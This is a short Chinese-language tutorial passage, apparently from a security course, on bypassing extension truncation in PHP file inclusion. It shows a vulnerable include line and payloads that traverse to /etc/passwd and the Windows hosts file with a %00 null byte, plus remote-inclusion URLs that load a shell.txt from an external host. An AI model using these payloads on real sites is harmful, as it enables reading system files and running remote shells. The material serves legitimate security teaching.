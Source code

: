 

# 绕过截断
假如用户控制 $file 的值为 :../../etc/passwd
那么这段代码相当于 include 'inc/../../etc/passwd.htm' ，而这个文件显然是不存在
```php
<?php include("inc/" . $_GET['file'] . ".htm"); ?>
```
## %00
需要注意的是， %00 截断需要 php 版本小于 5.3.4 ，且关闭 magic_quotes_gpc 功能。
%00 为结束符，在 filename 后带上 %00 ，就可以截断末尾的 .php 。
```php
/test.php?file=../../../../../windows/system32/drivers/etc/hosts%00
```

![image-20240130134433037](08.文件包含漏洞/image-20240130134433037.png)

## ?
截断方法就是 ?号截断，在路径后面输入 ?号，服务器会认为 ?号后面的内容为 GET 方法传递的参数"?" 符号在 URL 中通常被解释为查询字符串的起始符号，并将其后面的内容作为查询参数传递给服务器。在文件包含攻击中，攻击者试图通过构造恶意请求来读取或执行未授权访问的文件。
```php
/test.php?file=http://file.eagleslab.com:8889/data/shell.txt?
/test.php?file=http://file.eagleslab.com:8889/data/shell.txt%3f
/test.php?file=http://file.eagleslab.com:8889/data/shell.txt%00
```
